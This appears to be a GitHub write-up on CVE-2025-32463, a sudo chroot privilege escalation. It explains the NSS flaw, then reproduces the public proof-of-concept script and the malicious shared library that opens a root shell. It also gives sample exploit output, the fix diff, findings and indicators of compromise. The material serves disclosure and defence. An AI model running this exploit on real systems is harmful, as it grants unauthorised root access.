


# 🛡️ CVE-2025-32463 (Sudo Chroot Elevation of Privilege)

On June 30, 2025, the [**Stratascale Cyber Research Unit (CRU) team identified a local privilege escalation vulnerability in sudo**](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot), tracked as [`CVE-2025-32463`](https://www.cvedetails.com/cve/CVE-2025-32463/). This vulnerability, related to sudo's chroot option, can allow an attacker to escalate their privileges to root on an affected system.

---

**CVE ID:** CVE-2025-32463

**Base score:** 9.3 CRITICAL

**CVSS 3.1:** [CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)

**Description:** Sudo before **1.9.17p1** allows local users to obtain root access because `/etc/nsswitch.conf` from a user-controlled directory is used with the `--chroot` option.

Vulnerable versions: Exploitation has been verified on **Ubuntu 24.04.1**; **Sudo 1.9.15p5**, **Sudo 1.9.16p2**, and **Fedora 41 Server**; **Sudo 1.9.15p5**.

[NIST details](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)

[Stratascale advisory](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)

---



## What is sudo?

The `sudo` (superuser do) utility is a fundamental command line tool in Linux and Unix-like operating systems. It allows authorized users to execute commands with elevated privileges, typically as the superuser (root) or another specified user.

It's an essential utility for system administration and is crucial for maintaining the principle of least privilege – ensuring that users only have the necessary permissions for their tasks – enabling administrators to grant specific users the ability to perform administrative tasks without sharing the root password.

Sudo also provides an audit trail of commands executed with elevated privileges, enhancing security and accountability in a multi-user environment.

---

## What is chroot?

The `chroot` operation changes the apparent root directory for the current running process and its children. A program that's run in such a modified environment can't access files and commands outside that environment. This isolated environment is often called a "**chroot jail**".

The `chroot` command is commonly used for system recovery, building software packages, or creating isolated environments for security purposes, preventing processes from interfering with the main system. It's a fundamental tool for sandboxing applications and services, which also leaves it wide open to abuse.

---

## How the vulnerability works

The vulnerability, **CVE-2025-32463**, stems from a logic flaw in how `sudo` handles the `chroot` functionality during its command matching phase, specifically when attempting to resolve information via the **Name Service Switch (NSS)**.

The vulnerability essentially tricks `sudo` into loading and executing attacker-controlled code by subverting its legitimate mechanism for loading **name service modules** within a temporary, untrusted `chroot`.

### Sudo's chroot handling

`sudo` sometimes calls `chroot()` to set a temporary `root` directory, even if a corresponding `sudo` rule isn't explicitly configured to use `chroot`. This is part of its internal processing during command matching. The problem arises when `sudo` performs this `chroot()` operation on a writable, untrusted path that's under the control of a low-privileged user.

### NSS interaction within chroot

While `sudo` is operating within this attacker-controlled `chroot` environment (specifically between its internal `pivot_root()` and `unpivot_root()` calls), **NSS** operations are triggered. **NSS** is a mechanism that allows systems to retrieve information (like users, groups, and hosts) from various sources, defined in `/etc/nsswitch.conf`.

### Malicious `nsswitch.conf` file and library loading

The vulnerability exists because if an attacker places a malicious `nsswitch.conf` file within their controlled `chroot` environment, `sudo` will load it. This malicious `nsswitch.conf` can specify a custom **NSS** "**source**" (for example, `passwd: /woot1337`). When **NSS** tries to use this source, it attempts to load a corresponding shared object library, typically named `libnss_[source_name].so.2` (for example, `libnss_/woot1337.so.2`). Since the attacker controls the `chroot` path, they can place **their own malicious shared library at this expected location**.

### Arbitrary code execution

Because `sudo` is running with root privileges when it loads this shared object, the malicious library's constructor function (code that runs automatically when the library is loaded) is executed with root authority. This allows the low-privileged attacker to achieve **arbitrary code execution** as the root user, effectively leading to a **full privilege escalation**.

---

## Exploitation

### Controlled chroot environment

An attacker first creates a temporary directory (e.g., `/tmp/sudowoot.stage.XXXXXX`) and sets up a **controlled file system structure** within it. This includes creating a malicious `nsswitch.conf` file and placing a specially crafted **shared object library**.

The malicious `nsswitch.conf` is designed to point to a controlled path for the `passwd` service:

```bash
passwd: /woot1337
```

This entry tells the **NSS** system to look for a "**source**" named `/woot1337` when resolving password information. **NSS** will then attempt to load a shared object named `libnss_/woot1337.so.2`.

### Malicious shared object (payload)

The attacker compiles a **C program** into a **shared library**. This library contains a constructor function (`woot`, in the provided example) that **executes arbitrary code** when the library is loaded. The payload typically includes commands to elevate privileges (such as `setreuid(0,0)` and `setregid(0,0)`) and **drop the attacker into a root shell**.

```C
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
```

> The code block above, when compiled into a shared library (`libnss_/woot1337.so.2`), will immediately set the **effective user and group IDs to 0** (`root`) and **then execute a root shell**.

### Triggering the vulnerability

The exploit script then invokes `sudo` with the `-R` option, pointing it to the attacker's controlled `chroot` directory (`woot`, in the example). The `--random-seed` (`-R`) option *(which will be removed in a future version of sudo)* can sometimes trigger the relevant `chroot` logic that leads to the vulnerability.

Below is an excerpt of the public **proof of concept (PoC)** to help explain the conditions needed for exploitation:

```bash
# ... (setup for stage directory, nsswitch.conf, and woot1337.c compilation) ...

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc # Copying /etc/group is important for nss lookups

# Compile the malicious shared object
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot # This command triggers the vulnerability
rm -rf ${STAGE?}
```

When `sudo -R woot woot` is executed, `sudo`, in its attempt to perform command matching within the context of the `woot` directory (which acts as the `chroot`), reads the malicious `nsswitch.conf`. This configuration instructs NSS to load `libnss_/woot1337.so.2` from the attacker-controlled environment. Upon loading, the `woot` constructor function in the malicious library executes, resulting in arbitrary code execution as `root`.

The provided example below (from the [Stratascale research](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)) shows an unprivileged user, `lowpriv`, gaining a root shell on an **Ubuntu 24.04.2 LTS server** with **sudo v1.9.15p5**. It demonstrates how a user with no `sudo` rules defined can still achieve root privileges by exploiting this `chroot` vulnerability, bypassing normal privilege checks.

```bash
lowpriv@prod:~/CVE-2025-32463$ id
uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv)

lowpriv@prod:~/CVE-2025-32463$ sudo -l
[sudo] password for lowpriv:
Sorry, user lowpriv may not run sudo on prod.

lowpriv@prod:~/CVE-2025-32463$ ./sudo-chwoot.sh
woot!

root@prod:/# id
uid=0(root) gid=0(root) groups=0(root),1001(lowpriv)
```

### PoC - Proof of concept

The code block below shows the [proof of concept (PoC) demonstration script provided by the researchers at Stratascale](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot).



**`sudo-chwoot.sh`**

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

---

## Mitigation

There's only one advised mitigation that patches against the vulnerability quickly: **install sudo 1.9.17p1 or later, which is unaffected by the vulnerability**.

This patch reverts to the changes implemented in **sudo 1.9.14**. It removes the `pivot_root()` and `unpivot_root()` functions and ensures `chroot()` is no longer called during the command matching phase, preventing the malicious library from loading.

```C
--- sudo-1.9.17/plugins/sudoers/sudoers.c       2025-06-12 12:12:38.000000000 -0500
+++ sudo/plugins/sudoers/sudoers.c      2025-06-10 11:27:57.493871502 -0500
@@ -1080,7 +1080,6 @@
 int
 set_cmnd_path(struct sudoers_context *ctx, const char *runchroot)
 {
-    struct sudoers_pivot pivot_state = SUDOERS_PIVOT_INITIALIZER;
     const char *cmnd_in;
     char *cmnd_out = NULL;
     char *path = ctx->user.path;
@@ -1099,13 +1098,7 @@
     if (def_secure_path && !user_is_exempt(ctx))
        path = def_secure_path;

-    /* Pivot root. */
-    if (runchroot != NULL) {
-       if (!pivot_root(runchroot, &pivot_state))
-           goto error;
-    }
-
-    ret = resolve_cmnd(ctx, cmnd_in, &cmnd_out, path);
+    ret = resolve_cmnd(ctx, cmnd_in, &cmnd_out, path, runchroot);
     if (ret == FOUND) {
        char *slash = strrchr(cmnd_out, '/');
        if (slash != NULL) {
@@ -1122,14 +1115,8 @@
     else
        ctx->user.cmnd = cmnd_out;

-    /* Restore root. */
-    if (runchroot != NULL)
-       (void)unpivot_root(&pivot_state);
-
     debug_return_int(ret);
 error:
-    if (runchroot != NULL)
-       (void)unpivot_root(&pivot_state);
     free(cmnd_out);
     debug_return_int(NOT_FOUND_ERROR);
 }
```

---

## 🚩 Findings

| # | Finding                                              | Impact/Severity | Recommendation                                  |
|:-:|------------------------------------------------------|-----------------|--------------------------------------------------|
| 1 | Sudo performs NSS lookups from attacker-controlled chroot | Critical        | Upgrade to sudo **1.9.17p1** or newer           |
| 2 | Insecure handling of `nsswitch.conf` inside chroot   | High            | Harden `sudo` configs; monitor shared lib loading |
| 3 | No sudo rule required for exploit to succeed         | High            | Review and restrict `sudo` binary access         |
| 4 | Writable `/tmp` allows malicious library placement   | Medium          | Mount `/tmp` with `noexec,nosuid` flags          |
| 5 | Lack of AppArmor/SELinux restrictions on `sudo`      | Medium          | Enforce MAC profiles on privileged binaries      |

---

## 🚩 Indicators of Compromise (IoC)

| # | Artifact                          | Type         | Value/Pattern                                                      |
|:-:|----------------------------------|--------------|---------------------------------------------------------------------|
| 1 | Custom NSS library                | File Name    | `libnss_*.so.2` in non-standard paths (e.g., `/tmp`, `/dev/shm`)   |
| 2 | Malicious `nsswitch.conf`        | Config File  | `passwd: woot1337` or unexpected NSS sources                       |
| 3 | Sudo with chroot execution       | Command Line | `sudo -R <dir> <cmd>` used by non-privileged users                 |
| 4 | Unusual `gcc` activity in `/tmp` | Process      | Compilation of `.c` files with `-shared -fPIC` flags               |
| 5 | Root shell opened by low-priv user | Audit Event  | `uid=0(root)` session started by `uid>1000` without sudo rule      |

---

## 📖 Recommended Resources & Further Reading

- [Stratascale Advisory for CVE-2025-32463](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- [NVD Entry for CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)
- [Linux Privilege Escalation Techniques](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [MITRE ATT&CK: T1548 - Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)
- [AppArmor – Restricting Sudo Behavior](https://wiki.ubuntu.com/AppArmor)